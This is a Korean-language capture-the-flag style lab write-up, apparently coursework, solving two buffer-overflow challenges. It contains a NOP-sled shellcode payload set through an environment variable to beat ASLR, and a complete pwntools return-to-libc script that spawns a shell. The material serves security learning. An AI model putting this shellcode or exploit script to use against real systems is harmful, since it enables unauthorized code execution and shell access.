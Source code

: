 # bof10,11 풀이
<details>
<summary>bof10 풀이</summary>
<div markdown="1">
<img src="../image/HW_9/a1.png">bof10. 코드

> SHELLOCDE 환경변수를 설정해서 하는 방법은 `bof8.c`와 매우 유사하다. 그러나 `ASLR ON`이 되어있다!! <BR>***ASLR이 ON이 되어 있으면 실행할 때마다 메모리의 주소가 바뀐다.***<BR>우선 `buf`의 크기가 8byte밖에 되지 않기때문에 **쉘코드**를 넣는 것이 불가능 하다.*(쉘코드의 크기는 27byte)* `bof8`에서 한 방법대로 `export`명령어를 사용하여 `SHELLCODE`환경 변수 값을 설정해준다. <BR>***이 프로그램은 32byte이기 때문에 32byte에 맞는 쉘코드를 넣어주어야 한다!!***

> 우선 SHELLCODE 환경변수를 설정했다.<BR>> ```export SHELLCODE=`python -c "print '\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81'"` ```

> `buf`와 `return`주소의 차이를 구해야 하는데 진짜 너무 많이 했으므로 과정은 생략한다. *한가지 다른점은 이 프로그램은 32byte이기 때문에 `r`이 없다는 것이다.* <BR>이렇게 거리를 구하면 20이 나온다.

> `bof8`과 같이 `buf`에 `쓰레기값 20byte만큼 + 쉘코드의 환경변수 주소`를 넣으면 되지 않을까? 한번 해보았다.

> <img src="../image/HW_9/a2.png"><br>되지 않는다. 환경변수로 설정해준 `SHELLCODE`의 주소가 계속 바뀌는 것을 볼 수 있다. <BR>***ASLR이 ON되어 있기 때문이다!!***<BR>`SHELLCODE`의 주소가 계속 바뀌는데 다음에 어떻게 바뀔지 예측하고 `SHELLOCDE`의 환경변수 주소를 정확하게 찾는 것은 현실적으로 불가능하다.<BR>이 때 사용할 방법은 `NOP`이다. 

> `SHELLCODE` 환경변수를 설정해 줄때 쉘코드 앞에 여러개의 `NOP`를 붙여주면 어디선가 얻어 걸려서 쭈우우욱 타고 내려와 쉘코드를 만나게 된다. `NOP`를 얼마나 넣을지는 위 방법대로 계속 돌려봤을 때 `SHELLOCDE` 주소의 **최대-최소**를 구하면 되겠지만 매우 귀찮으므로 적절한 값을 찾아주는 방법을 사용한다.

> 너무 많은 숫자를 넣으면 다음과 같은 오류가 나타난다. <img src="../image/HW_9/a3.png"><br>여러번 실행해본 결과 130000이 적당했다. 쉘코드 앞에 `NOP`를 130000번 반복해주면 된다.

> ```export SHELLCODE=`python -c "print '\x90'*130000 + '\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81'"` ```<BR>이 명령어를 통해 SHELLCODE 환경변수를 설정해준다. *(`\x90`이  NOP이다.)*<BR>

> <img src="../image/HW_9/a4.png"><br> 이후 다음과 같은 명령어를 통해 `./bof10`을 실행시켰더니 또 오류가 뜬다. 내가 `SHELLCODE`환경변수에 `NOP`를 **130000**번 반복해서 얻은 범위에 얻어 걸려야 하는데 운이 나빠 걸리지 않은 것이다. 그래서 계속 실행하면서 얻어걸릴 때 까지 반복해야 하므로 while문을 사용한다.

> <img src="../image/HW_9/a5.png"><br>다음과 같이 매우 편리한 방법이 있다. 그러면 계속 반복하다가 어느순간 쉘이 실행되면서 멈추게 되는데 바로 이때이다.<br><img src="../image/HW_9/a6.png"><br>**문제 해결 !**
</div>
</details>
<details>
<summary>bof11 풀이</summary>
<div markdown="1">
<img src="../image/HW_9/b1.png">bof11.c 코드

> 일단 `bof10`과 같이 `ASLR`이 **ON**되어있다. 그러나 환경변수 주소를 리턴해주는 코드가 없다. 지금까지 배웠던 방법 중 어떤 방법을 사용하면 될까? 바로 `bof9`에서 썼던 **RTL**이다. 

> **RTL**에 대한 자세한 설명은 <a hrep="https://github.com/JeongSeongMok/GBC_Security/tree/master/HW_8">HW_8</a>의 <a hrep="https://github.com/JeongSeongMok/GBC_Security/blob/master/HW_8/README.md">README.md</a>에 있다.<br>`RTL`을 사용하기 위해 구해야 할것은 다음과 같다.
> - `buf`와 `return`주소의 사이 거리 
> - `"pop rdi ; ret"`의 주소
> - `/bin/sh`의 주소
> - `system`함수의 주소

> 그러나 현재 이 파일은 `ASLR`이 **ON**되어 있으므로 **gdb**를 통해 주소값을 구하고 나와 실행시킬 때 해당 주소값을 넣으면 아무런 의미가 없다. 계속 메모리의 주소값이 바뀌기 때문이다. <br>그럼 아예 방법이 없는 것일까?<br>아니다. 코드를 잘보면 `printf("printf() address : %p\n)",print);`구문을 통해 `printf`함수의 주소 값을 출력해준다. 이 말은 즉, 오브젝트파일이 실행될 때 마다 바뀌는 `printf`의 주소값을 그때그때 알 수 있다는 것이다.

> `ASLR`을 통해 메모리의 주소는 계속 바뀌지만 함수간의 주소거리는 바뀌지 않는다는 점을 이용한다. 위에서 언급한 코드를 통해 `printf`주소의 바뀌는 값은 알 수 있기 때문에 **gdb** 디버깅을 통해 **위에서 언급한 필요한 주소들**과 `printf`함수의 주소의 거리를 구해놓는다면 메모리주소가 계속 바뀌어도 상관이 없다!

> 하나씩 차이를 구해보자. *(**gdb**실행 후 `r`을 통해 실행 할 때마다 주소가 바뀌기 때문에 1트안에 모든 것을 구하는 것이 편하다.)*
>> 1. `printf` <-> `system`<br><img src="../image/HW_9/b2.png"><br>**`system`주소 - `print`주소 = -66672**
>> 2. `printf` <-> `/bin/sh`<br><img src="../image/HW_9/b3.png"><br>**`/bin/sh`주소 - `print`주소 = 1275223**
>> 3. `printf` <-> `pop rdi ; ret`<br>`vmmap`과 `ROPgadget.py`를 이용하여 `pop rdi ; ret`의 주소를 얻는 방법은 <a hrep="https://github.com/JeongSeongMok/GBC_Security/tree/master/HW_8">HW_8</a>의 <a hrep="https://github.com/JeongSeongMok/GBC_Security/blob/master/HW_8/README.md">README.md</a>에 있다. 구해서 빼준 결과<br>**`pop rdi ; ret`주소 - `print`주소 = -214782**

> 그러나 또 문제가 있다. `./bof11`로 실행해서 출력값으로 `printf`의 주소 값을 보고나고 실행이 종료되면 다시 `printf`의 주소 값이 바뀌기 때문에 다음 `printf`의 주소값을 예측하는 것은 현실적으로 불가능하다. 그래서 **pwntools**라는 것을 이용한다.

> 아무이름의 python파일을 만들고 다음과 같은 코드를 입력한다.
```
from pwn import *

p = process('./bof11') // ./bof11 프로세스를 p에 저장

p.recvuntil('printf() address : ')
printf_addr = p.recvuntil('\n') // '\n'까지 입력된 출력된 값을 printf_add에 저장
printf_addr = int(printf_addr, 16) // 형 변환

// 위에서 구한 차이를 이용하여 system, /bin/sh, pop rdi ; ret의 위치를 printf의 주소를 이용해 접근한다.
sys_a = printf_addr + (-66672) 
binsh_a = printf_addr + (1275223)
poprdi_a = printf_addr + (-214782)

//exploit에 페이로드 저장
exploit = str.encode("x" * 18)
exploit += p64(poprdi_a) + p64(binsh_a) + p64(sys_a)
p.send(exploit)

p.interactive()
```

> `python3`를 이용하여 만든 python파일을 실행 시키면 다음과 같이 나온다.<br><img src="../image/HW_9/b5.png"><br>**성공!!**
</div>
</details>